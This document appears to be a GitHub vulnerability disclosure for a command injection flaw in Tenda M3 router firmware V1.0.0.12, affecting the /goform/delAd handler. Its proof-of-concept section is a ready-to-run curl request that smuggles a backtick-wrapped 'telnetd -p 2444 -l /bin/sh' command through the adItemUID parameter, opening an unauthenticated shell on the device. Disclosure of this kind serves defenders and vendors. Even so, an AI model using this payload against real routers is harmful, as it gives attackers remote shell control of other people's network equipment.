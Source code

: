 # Tenda M3 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda M3 1.10 V1.0.0.12(4856) devices. An HTTP request parameter is used in command string construction within the handler function of the /goform/delAd route. This could lead to Command Injection via Shell Metacharacters.

![1](./1.jpg)



When we send packets, the router will be shell

```
curl -i -X POST http://192.168.10.1/goform/delAd -d adItemUID='`telnetd -p 2444 -l /bin/sh`,' -d action='save'   --cookie "user=admin"
```





![poc](./poc.jpg)

